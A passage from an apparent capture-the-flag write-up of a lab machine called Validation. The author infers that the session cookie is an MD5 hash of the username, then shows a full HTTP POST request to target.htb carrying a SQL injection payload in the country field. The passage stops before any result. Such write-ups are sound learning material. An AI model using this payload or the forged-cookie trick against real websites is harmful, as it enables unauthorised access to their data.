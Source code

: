 ![Welcome Admin](/assets/images/2022/05/Validation/WelcomeAdmin.png "Welcome Admin")

I was connected, but it did not show the username and country. I went back to the user creation and created the admin user. This time, it showed the username and country I entered. It looked like the site used the MD5 hash to load the data from some storage on the server. 

Next, I tried sending some SQL in the country, using Burp Repeater.

I posted this: 

```http
POST / HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://target.htb
Connection: close
Referer: http://target.htb/
Cookie: user=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

username=admin&country=' Or 1 = 1 -- -
```

